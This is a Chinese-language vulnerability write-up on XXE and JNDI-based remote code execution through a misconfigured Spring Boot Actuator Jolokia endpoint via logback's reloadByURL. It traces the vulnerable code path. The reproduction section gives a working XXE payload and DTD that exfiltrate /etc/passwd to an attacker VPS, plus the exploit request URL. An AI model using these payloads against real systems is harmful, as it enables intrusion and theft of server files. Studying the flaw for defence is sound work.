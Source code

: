 Spring Boot Actuator jolokia 配置不当导致的XXE漏洞
==================================================

一、漏洞简介
------------

Spring boot 会把 **/!** 解析成
*/*，所以我们只要署恶意脚本，让被攻击服务器访问就会触发漏洞。***前提条件*****查看jolokia/list中存在的 Mbeans，是否存在logback
库提供的reloadByURL方法**

    https://www.0-sec.org:9090/jolokia/list

![4140320665.png](./resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId22.png)

二、漏洞影响
------------

Spring Boot 2.x

三、复现过程
------------

### 漏洞分析

#### 触发流程

**Spring-boot-actuator**-\>**Jolokia**-\>**Logback**-\>**JNDI**-\>**Rce**

可以在 **JolokiaMvcEndpoint** 类中先看看 **jolokia** 是如何注册的，如下

![](./resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId27.png)

只要是 **/jolokia** 为第一个 **path**
节点的，都会进入它的执行逻辑中，可以一直跟进到**org.jolokia.http.HttpRequestHandler\#handleGetRequest**
里

![](./resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId28.png)

在上图红框流程中，先对 **path** 做 **/** 切割分组，不过可以 **1!/2**
这样能够保留 **/** 符号，后边用得到可以根据 **path** 节点新建 **JmxRequest** 对象大致如下图所示，有这么些类别可以指定

![](./resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId29.png)

我们主要观察 exec 类型的，它对应 org.jolokia.request.JmxExecRequest
类型，在它被创建时，会调用父类 org.jolokia.request.JmxObjectNameRequest
的构造函数，如下所示

![](./resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId30.png)

跟进 initObjectName 函数，如下

![](./resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId31.png)

如上图，这里将 exec 后面的第一个 path 节点带进了
javax.management.ObjectName 构造函数中

![](./resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId32.png)

根据上图中的注释描述，可以根据一个字符串（对象名称的字符串表示形式）创建一个
ObjectName 对象，这个对象和后面的反射执行指定函数大有关系

然后将 path 的下一个节点赋值到 JmxExecRequst 的 operation
属性上，将剩余的 path 节点作为 List 赋值给 arguments 属性

至此 JmxRequest 创建完毕，进入
org.jolokia.http.HttpRequestHandler\#executeRequest
执行流程当中，其中很多部分就不详细跟踪，大致是又根据 exec 类型创建了一个
org.jolokia.handler.ExecHandler 对象

看见poc很好奇参数转换过程是怎么样的

直接进入到 ExecHandler 的 doHandRequest 当中

![](./resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId33.png)

如上图，就是将 JmxExecRequst 中的 operation
做参数类型鉴定，然后根据目标函数需要的参数类型，将 arguments
转换成对应类型，最后执行 server.invoke
的调用，这个调用就是执行我们指定的类中的指定的函数，那这里是不是能够任意类和任意函数都能执行呢，不是的，需要提前注册，注册的内容可以通过
`/jolokia/list` 查看

ch.qos.logback.classic.jmx.JMXConfigurator
就是能够调用的类之一，到了这里就进入到了 `logback` 的依赖包中

简单查看一下它的函数：

![](./resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId34.png)

首先这个类名就很有意思 JMXConfigerator ，和 JMX 的配置有关，函数中也有个
reloadByURL ，从名字就能会意出通过远程加载配置文件并且重启配置23333

先查看 reloadByURL 函数

![](./resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId35.png)

如上图，它的参数是一个 URL 类型的，我们传入进去只能是
String，但是不用方，ExecHandler 的 doHandRequest
当中会对目标函数的参数类型做适配，将 String 转换成 URL 。但是这里有个问题，因为需要指定 schema ，所以必须有类似 http://
这样的开头，而我们的 path 进去以后，会用 /
切割分组的，所以就需要用到前面的流程中对 uri
的处理过程，只需要这样请求就好： `http:!/!/`

跟入 doConfigure 函数

![](./resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId36.png)

从 url 获取返回流传入下一个 doConfigure 函数，这里也能 ssrf 的跟进函数如下：

![](./resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId37.png)

继续跟进上图中的红色方框如下

![](./resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId38.png)

如上图所示，在调用 recordEvents
的时候带入了输入流，这个输入流是我们可控的，即在自己服务器上放置的 xml
文件， xml 解析的过程就是发生在 recordEvents
的执行过程中，而后红框的调用，是对已经解析完成的内容进行一定的逻辑操作，然后重载配置，后面的过程就不分析了，简单的去看一下
recordEvents 执行过程，如下

![](./resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId39.png)

很简单，build 完成后直接 parse，那我们查看一下 build
的时候是否有做防护，如下

![](./resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId40.png)

什么防护和限制都莫得，所以这里也可以造成 xxe

那么到现在为止，只是梳理出来了 xxe 的触发，rce 呢不方，我们查一查 logback insertFormJNDI 标签啥

![](./resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId41.png)

其中的 env-entry-name 就是指向 jndi
的服务器地址，那么这里我们可以换成自己的恶意 jndi 服务器地址，通过 jndi
触发 java 反序列化，最终导致 RCE

### 漏洞复现

-   在VPS上创建logback.xml，logback中填写jndi服务，当调用时直接触发恶意class。

```{=html}
<!-- -->
```
    <?xml version="1.0" encoding="utf-8" ?>
    <!DOCTYPE a [ <!ENTITY % remote SYSTEM "http://vps地址/恶意文件.dtd">%remote;%int;]>
    <a>&trick;</a>

-   在VPS上创建ian.dtd

```{=html}
<!-- -->
```
    <!ENTITY % d SYSTEM "file:///etc/passwd">
    <!ENTITY % int "<!ENTITY trick SYSTEM ':%d;'>">

![2.png](./resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId43.png)

-   开启http服务

```{=html}
<!-- -->
```
    python -m SimpleHTTPServer 80

-   远程访问logback.xml文件

```{=html}
<!-- -->
```
    https://www.0-sec.org:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/VPS地址!/logback.xml

![1.png](./resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId44.png)

-   可以看到服务器上也返回了响应日志    ![3.png](./resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId45.png){width="5.833333333333333in"
    height="0.3951881014873141in"}

参考链接
--------

> https://xz.aliyun.com/t/4258
>
> https://jianfensec.com/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/Spring%20Boot%20Actuators%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%AF%BC%E8%87%B4RCE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/
